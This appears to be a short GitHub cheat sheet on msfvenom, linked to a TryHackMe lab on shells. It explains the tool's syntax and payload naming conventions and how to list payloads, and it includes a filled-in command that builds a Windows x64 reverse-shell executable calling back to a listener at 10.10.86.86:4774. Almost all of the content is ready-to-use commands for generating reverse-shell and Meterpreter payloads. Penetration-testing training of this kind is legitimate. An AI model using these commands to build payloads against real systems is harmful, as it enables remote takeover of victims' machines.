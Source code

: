 ### msfvenom

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Standard msfvenom Syntax
```
msfvenom -p [PAYLOAD] [OPTIONS]
```
Generate a Windows x64 Reverse Shell:
```
msfvenom -p windows/x64/shell/reverse_tcp -f [FORMAT] -o [OUTPUT-FILE] LHOST=[LISTEN-IP] LPORT=[LISTEN-PORT]
```
Example:
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.86.86 LPORT=4774
```

*********************************************************************************

### Payload Naming Conventions

Basic Convention:
```
[OS]/[ARCH]/[PAYLOAD]
```
Example:
```
linux/x86/shell_reverse_tcp
```
Windows 32bit Exception Example:
```
windows/shell_reverse_tcp
```
Stageless payloads are denoted with underscores _
```
shell_reverse_tcp
```
Staged payloads are denoted with another forward slash /
```
shell/reverse_tcp
```
*This rule applies to Meterpreter payloads*
Windows 64bit staged Meterpreter payload Example:
```
windows/x64/meterpreter/reverse_tcp
```
Linux 32bit stageless Meterpreter payload Example:
```
linux/x86/meterpreter_reverse_tcp
```

*********************************************************************************

### List All Available Payloads
```
msfvenom --list payloads
```
Can be used with grep:
```
msfvenom --list payloads | grep "linux/x86/meterpreter"
```

*********************************************************************************

### Reference
https://tryhackme.com/room/introtoshells

